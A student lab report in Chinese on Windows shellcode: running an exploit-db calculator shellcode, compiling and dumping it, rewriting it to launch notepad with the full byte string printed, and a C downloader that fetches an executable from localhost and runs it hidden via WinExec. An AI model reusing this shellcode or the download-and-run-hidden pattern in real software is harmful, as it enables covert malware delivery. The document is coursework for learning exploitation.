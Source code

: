 ## chap0x04实验报告  
#### 实验要求：  
- [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad. exe  
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA)  
#### 实验过程：  
* 成功运行弹出计算器的shellcode  
    * 背景知识：
        * VirtualProject函数  
            * 函数原型  
            ```  
            BOOL VirtualProtect(  
            LPVOID lpAddress,  //要改变属性的内存起始地址
            DWORD dwSize,  //要改变属性的内存区域大小
            DWORD flNewProtect,  //内存新的属性类型  
            PDWORD lpflOldProtect  //内存原始属性类型保存地址  
            );  
            ```  
            * 源代码中的应用  
            ```  
              VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);  
            ```  
            修改该段内存属性为可读可写可执行  
    * 准备工作  
        * 打开项目->属性进行修改：  
        ![](img/character.PNG)  
        * 把.cpp文件改成.c文件  
        源码中出现函数指针和字符数组指针的强制类型转换，.cpp文件编译无法通过，改成.c后可以成功编译   
    * 运行  
     ![](img/calc.PNG)
    * 问题与解决
    * 问题：编译成功，但是执行时代码异常退出（在关闭了数据执行保护的情况下）  
    * 解决：将解决方案平台由x64改变为x86，成功弹出计算器。  
* 能从汇编源码编译通过并成功dump  
    * 步骤：
    1.将汇编源码传进Linux虚拟环境
    2.执行以下两条命令  
    ```  
    nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
    for i in $(objdump -D   win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
    ```  
    * 运行结果  
    ![](img/calc-dump.PNG)  
    ![](img/kali-desktop.PNG)  
* 修改shellcode功能为运行记事本程序  
    * 步骤：
    1.修改汇编源码，相应部分修改为notepad.exe,如下：
        ```  
        push 0x00657865     ;00exe
        push 0x2e646170     ;.dap
        push 0x65746f6e     ;eton
        ```  
        2. 将汇编源码传入虚拟机，执行以下两条命令：  
        ```  
        nasm -f win32 win32-WinExec_notepad-Exit.asm -o win32-WinExec_notepad-Exit.o    
        for i in $(objdump -D   win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
        ```  
        3. 获得相应的shellcode  
        ```  
          \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b  
           \x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b    
          \x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc    
          \x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01  
          \xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b 
          \x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53  
          \x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14  
         \x89\x55\xec\xeb\x32\x31\xc0\x8b\x55  
          \xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9  
          \xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83  
          \xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0  
          \x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66  
          \x8b\x04\x41\x8b\x04\x82\x03\x45\xfc  
          \xc3\xba\x78\x78\x65\x63\xc1\xea\x08  
          \x52\x68\x57\x69\x6e\x45\x89\x65\x18  
          \xe8\xb8\xff\xff\xff\x31\xc9\x51\x68  
          \x65\x78\x65\x00\x68\x70\x61\x64\x2e  
          \x68\x6e\x6f\x74\x65\x89\xe3\x41\x51  
          \x53\xff\xd0\x31\xc9\xb9\x01\x65\x73  
          \x73\xc1\xe9\x08\x51\x68\x50\x72\x6f  
          \x63\x68\x45\x78\x69\x74\x89\x65\x18  
          \xe8\x82\xff\xff\xff\x31\xd2\x52\xff\xd0  
        ```  
        4.执行程序，弹出notepad  
        ![](img/notepad.PNG)  
*   (选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA)  
1.源代码：    
```  
#include<Windows.h>
#include<urlmon.h>
typedef int (WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
int main()
{
	HMODULE  hurlmod = LoadLibrary("urlmon.dll");//手工加载，导入表里不会显现
	MY_DOWNLOAD_PROC function_ptr =
		(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");//在导入表里根据函数名找到函数地址
	function_ptr(NULL, "http://127.0.0.1:8000/overflow.exe", "a.exe", 0, NULL);
	//URLDownloadToFile(NULL,"http://by.cuc.edu.cn", "a.html", 0, NULL);
	WinExec("a.exe", SW_HIDE);//执行
	return 0;
}  
```  
2.  步骤：
    * 在存有overflow.exe的目录下搭建http server  
    ```  
    python -m http server  
    ```  
    * 执行上述源代码  
    ![](img/a.PNG)  
    ![](img/a-calc.PNG)  

附：  
执行 calc.exe 的源代码：calc.c
执行 notepad.exe 的源代码：notepad.c
执行 下载a.exe的源代码：dll_c.c




     





                        


